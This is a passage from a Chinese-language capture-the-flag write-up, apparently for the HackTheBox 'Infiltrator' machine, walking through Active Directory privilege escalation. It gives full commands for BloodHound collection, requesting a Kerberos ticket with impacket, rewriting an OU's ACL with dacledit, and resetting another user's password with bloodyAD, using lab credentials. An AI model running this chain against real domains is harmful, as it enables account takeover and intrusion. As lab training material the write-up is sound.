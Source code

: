 得到凭据:`d.anderson:WAT?watismypass!`


也是连不上，（x


# bloodhound收集


尝试下能不能收集域信息


`bloodhound-python -d infiltrator.htb -u l.clark -p 'WAT?watismypass!' -c all --dns-tcp --zip --dns-timeout 10`


导入bloodhound，没啥有用的信息


`bloodhound-python -d infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -c all --dns-tcp --zip --dns-timeout 10`


导入bloodhound，d.anderson对MARKETING DIGITAL@INFILTRATOR.HTB有GenericAll权限，`e.rodriguez`属于`MARKETING DIGITAL`组，所以我们可以修改`e.rodriguez`的密码


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015195510528-690248557.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015195510528-690248557.png)


# GenericAll


首先修改`d.anderson`对`MARKETING DIGITAL`组的控制权限为`FullControl`，先获取`d.anderson`的票据


`impacket-getTGT 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip 10.10.11.31`


然后导入票据：`export KRB5CCNAME=d.anderson.ccache`


修改权限: `python3 AD/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip 10.10.11.31`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015210035887-1495631058.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015210035887-1495631058.png)


修改密码


`python3 bloodyAD.py --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.10.11.31 -u "d.anderson" -p "WAT?watismypass\!" set password "e.rodriguez" "K@night666"`


[![](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015210444649-86343746.png)](https://img2024.cnblogs.com/blog/2746479/202410/2746479-20241015210444649-86343746.png)


查看e.rodriguez用户信息，发现对`CHIEFS MARKETING`组有`AddSelf`权限
